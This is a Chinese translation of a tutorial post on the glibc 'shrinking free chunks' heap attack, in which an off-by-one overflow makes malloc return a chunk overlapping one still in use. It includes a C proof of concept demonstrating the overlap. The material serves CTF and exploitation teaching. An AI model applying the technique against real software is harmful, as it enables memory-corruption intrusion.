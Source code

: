 ```yaml
---
title: Heap Exploitation系列翻译-12 Shrinking Free Chunks
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# Shrinking Free Chunks

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击在'[Glibc Adventures: The Forgotten Chunk](http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)'中有详细描述. 它是利用单字节堆溢出(通常也被称作 '[off by one](https://en.wikipedia.org/wiki/Off-by-one_error)'). 这项攻击技术的目标是让'malloc'返回一个跟某一已分配堆块重叠的堆块, 该堆块目前也处在使用状态. 起始在内存中的3块连续堆块(`a`, `b`, `c`)被分配出来并且中间那块已经被释放了. 第一块堆块存在溢出漏洞, 可以利用溢出覆写中间堆块的'size'. 攻击者的最低有效字节是0, 也就'缩减'了堆块的大小. 接下来,从中间的空闲堆块中分配出两个small chunks(`b1` 和 `b2`). 第三个堆块的`prev_size`并没有得到更新, 因为`b`+`b->size`已经不再指向`c`, 实际上它指向的是在`c`之前的一块内存区域. 之后, `b1`和`c`都被释放, `c`仍旧认定`b`是处于空闲的(这是因为`prev_size`并没有更新,因此`c`-`c->prev_size`依旧指向`b`)并与`b`进行合并. 这也就导致了生成一个起始于`b`大空闲块并同时与`b2`相重叠了. 一个新的malloc将这个大堆块返回回来, 从而完成这项攻击. 下图总结了这些步骤:

![Summary of shrinking free chunks attack steps](../assets/images/shrinking_free_chunks.png)

_图片来源: https://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf_

考虑以下示例代码(下载完整版本: [这里](/files/heap-exploitation/files/shrinking_free_chunks.c))


```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[19];               // padding
};

void *a, *b, *c, *b1, *b2, *big;
struct chunk_structure *b_chunk, *c_chunk;

// Grab three consecutive chunks in memory
a = malloc(0x100);                            // at 0xfee010
b = malloc(0x200);                            // at 0xfee120
c = malloc(0x100);                            // at 0xfee330

b_chunk = (struct chunk_structure *)(b - 2*sizeof(size_t));
c_chunk = (struct chunk_structure *)(c - 2*sizeof(size_t));

// free b, now there is a large gap between 'a' and 'c' in memory
// b will end up in unsorted bin
free(b);

// Attacker overflows 'a' and overwrites least significant byte of b's size
// with 0x00. This will decrease b's size.
*(char *)&b_chunk->size = 0x00;

// Allocate another chunk
// 'b' will be used to service this chunk.
// c's previous size will not updated. In fact, the update will be done a few
// bytes before c's previous size as b's size has decreased.
// So, b + b->size is behind c.
// c will assume that the previous chunk (c - c->prev_size = b/b1) is free
b1 = malloc(0x80);                           // at 0xfee120

// Allocate another chunk
// This will come directly after b1
b2 = malloc(0x80);                           // at 0xfee1b0
strcpy(b2, "victim's data");

// Free b1
free(b1);

// Free c
// This will now consolidate with b/b1 thereby merging b2 within it
// This is because c's prev_in_use bit is still 0 and its previous size
// points to b/b1
free(c);

// Allocate a big chunk to cover b2's memory as well
big = malloc(0x200);                          // at 0xfee120
memset(big, 0x41, 0x200 - 1);

printf("%s\n", (char *)b2);       // Prints AAAAAAAAAAA... !
```

`big`现在指向一开始的`b`堆块并且与`b2`重叠. 更改`big`的内容会改变`b2`的内容, 即时两个堆块都不会被释放.

值得注意的是, 与缩减`b`块相反, 攻击者其实也可以增加`b`块的大小. 这也同样可以造成类似情况的重叠. 当'malloc'申请另一个更大的堆块, `b`就会用于满足这个申请需求, 这样`c`的内存也会作为新堆块的一部分返回回来.
